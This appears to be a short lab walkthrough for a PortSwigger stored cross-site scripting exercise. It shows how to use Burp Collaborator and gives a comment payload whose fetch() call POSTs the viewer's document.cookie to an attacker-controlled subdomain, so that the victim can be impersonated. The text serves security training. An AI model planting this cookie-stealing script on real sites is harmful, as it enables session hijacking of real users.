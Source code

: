 Goal: exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

- go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).

- Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. 

- Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:

  ```
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body:document.cookie
  });
  </script>
  ```

  This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

- Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. 

- Take a note of the value of the victim's cookie in the POST body.

<img src="/assets/img/portswigger/xss/1_1.png" alt="xss" style="zoom:70%;" />
